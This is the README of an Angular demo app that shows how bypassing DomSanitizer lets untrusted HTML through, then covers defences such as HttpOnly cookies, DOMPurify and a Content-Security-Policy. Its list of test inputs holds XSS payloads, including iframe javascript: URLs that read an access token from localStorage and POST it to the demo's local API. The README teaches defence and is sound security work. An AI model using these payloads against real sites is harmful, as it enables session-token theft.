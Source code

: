 # AngularSecurity

Simple Angular application with HTML security use cases.

## Description

Whatever the method, you end up displaying some data that is **untrusted** because it comes from the user. This data can be a simple string, a URL, or even a piece of HTML code. The data is displayed with `[innerHTML]` directive, which is a security risk when the data is not sanitized.

You explicitly disable the security by using the `bypassSecurityTrustHtml` method from the `DomSanitizer` service. This method tells Angular that you are aware of the security risk and that you are taking the responsibility of sanitizing the data yourself.

## How to test the application

Run the application with `ng serve` and navigate to `http://localhost:4200/`.

Run the db server with `npm run dbserver` and navigate to `http://localhost:3000/`.

You can type HTML code in the input field and it will be rendered as HTML.
Examples: 

- `<h1>Test</h1>` will render as a title.
- `<script>alert('Hello')</script>` will **not** render as an alert.
- `<img src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png" />` will render as an image.
- `<iframe src="javascript:alert('Iframealert');">` will render as an iframe with an alert.
- `<iframe src="javascript:alert(localStorage.getItem('access_token'))">` will render as an iframe with an alert with the token value.
- `<iframe src="javascript:fetch('http://localhost:3000/data/1')">` will request a distant value.
- `<iframe src="javascript:fetch('http://localhost:3000/data', {method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify({name: localStorage.getItem('access_token'), price: 6})})">` will post the token to a distant api.

Protect your cookies from javascript access by setting the `HttpOnly` flag on the server side.

A cookie with the Secure attribute is only sent to the server with an encrypted request over the HTTPS protocol

![Local cookies with httpOnly flag](doc_cookies.png)

OSS tools for DOM security:

- [DOMPurify](https://github.com/cure53/DOMPurify)
- [CSP Reference](https://content-security-policy.com/)

## How to secure the application with CSP

- Add the `Content-Security-Policy` header to the server response.
In the `index.html` file, add the following meta tag:

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src 'self'; script-src 'self' https://apis.google.com;">
```

You can add more directives to the CSP header to secure your application.
You can also use your server implementation to add the CSP header to the response.

[CSP Nginx](https://content-security-policy.com/examples/nginx/)

## Credits

Check this video by Manfred Steyer: [Angular Security live hacking with Martina Kraus](https://www.youtube.com/live/HAsWTXIMJnQ)